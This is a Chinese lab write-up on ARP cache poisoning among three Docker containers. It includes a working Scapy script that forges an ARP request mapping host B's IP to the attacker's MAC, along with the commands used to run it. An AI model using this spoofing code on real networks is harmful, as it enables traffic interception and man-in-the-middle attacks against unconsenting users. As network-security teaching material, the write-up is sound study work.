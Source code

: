 > 在此任务中，我们有三台机器（容器），A、B和M。我们将M用作攻击者机器。 我们想使A在其ARP高速缓存中添加虚假条目，从而将B的IP地址映射到M的MAC地址。 我们可以使用以下命令检查计算机的ARP缓存。 如果要查看与特定接口关联的ARP缓存，则可以使用`-i`选项。

```bash
$ arp -n
Address 	HWtype 	HWaddress 			Flags Mask 	Iface
10.0.2.1 	ether 	52:54:00:12:35:00	C 			enp0s3
10.0.2.3 	ether 	08:00:27:48:f4:0b 	C			enp0s3
```

![image-20220505093823288](ARPCachePoisoning/image-20220505093823288.png)

> 有很多方法可以进行ARP缓存中毒攻击。你可以尝试以下三种方法，并报告每种方法是否有效。

### 任务1.A（ARP请求）

> - 任务1.A（使用ARP请求）。在主机M上，构建一个ARP请求数据包以将B的IP地址映射到M的MAC地址。将数据包发送到A，并检查攻击是否成功。

既然要将B的IP地址映射到M的MAC地址，那就伪造一个包，这个包就是普普通通的由M发给A的包，区别在于原本应该是M的ip地址我们故意写成了B的ip。

```bash
#!/usr/bin/env python3
from scapy.all import *

# Who can it be used? Write first!
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"

E = Ether(src=M_mac, dst=A_mac)
A = ARP(hwsrc=M_mac, psrc=B_ip,
        hwdst=A_mac, pdst=A_ip)
A.op = 1 	# 1 for ARP request; 2 for ARP reply
pkt = E/A
sendp(pkt)
```

将文件复制到volumes共享文件夹下，docker连接上机器M，随后运行脚本发送arp数据报

```bash
docker exec -it b5 /bin/bash
cd volumes/
python3 t1a.py
```

![image-20220505104651435](ARPCachePoisoning/image-20220505104651435.png)
